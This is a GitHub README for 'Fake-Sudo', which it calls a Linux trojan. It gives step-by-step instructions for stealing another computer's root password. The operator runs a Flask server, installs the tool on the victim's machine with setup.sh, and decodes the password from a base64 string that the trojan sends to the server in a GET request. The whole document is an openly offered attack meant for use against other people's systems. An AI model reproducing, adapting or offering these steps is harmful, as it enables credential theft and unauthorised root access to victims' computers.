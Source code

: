 # Fake-Sudo
A linux trojan
## How to use
<b>WARNING: this only works for linux users.</b><br><br><br>
The following commands shall be executed in the terminal.
1. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
2. Install pip if you haven't already<br>`sudo apt instal pip -y`
3. Make a server<br>`pip install flask`<br>`python3 flask.py`
4. Go to the computer you want to steal the root password from
5. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
6. Setup the program<br>`chmod a+x setup.sh`<br>`source setup.sh`
7. Clear the screen<br>`clear`
8. Enter the public URL for the server you made (NOT 127.0.0.1)<br>`Site (include https:// or http://) <<< [your url]`
9. Once the server log says something, copy the end of the url (e.x. `0.0.0.0 - - [January/1/2021 10:23:04] "GET /`**`qfgghheyfhrf;e/vfrtgisfkdgiyes`**` HTTP/1.1" 404 -`)and decode it<br>`echo [end of url] | base64 -d`, That's the root password!
10. That's it!
